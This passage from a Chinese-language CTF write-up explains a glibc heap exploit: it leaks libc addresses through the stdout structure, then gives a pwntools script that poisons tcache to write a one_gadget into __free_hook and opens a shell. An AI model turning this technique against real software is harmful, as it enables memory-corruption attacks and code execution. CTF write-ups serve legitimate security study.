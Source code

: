 然后分配到`stdout`结构体，修改`flags`等，泄露出地址：

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210214115716.png)

计算一下基地址，`__free_hook`的地址等：

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/image-20210214120016342.png)

重复一下上面的过程，在`_free_hook`附近写上`one_gadget`即可：

```python
gadget = [0x4f2c5, 0x4f322, 0x10a38c]
one_gadget = free_hook_addr - 0x3ed8e8 + gadget[1]
ba() # 指针置空

# 重复上面的操作，在free_hook上写one_gadget
re(0x10)
re(0)

re(0x90)
re(0)

re(0x20) # 隔开top chunk
re(0)

# 开始dump0x90
re(0x90)
for x in range(7):
    fr()

re(0)

re(0x10)
re(0x50, p64(0) * 3 + p64(0x51) + p64(free_hook_addr))
re(0)

re(0x90)
re(0)

re(0x90, p64(one_gadget))

# delete
io.sendlineafter(">> ", '2')
io.sendline('cat flag')
io.interactive()
```

之后就可以拿到shell：

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210214120318.png)



最后贴一下完整的exp
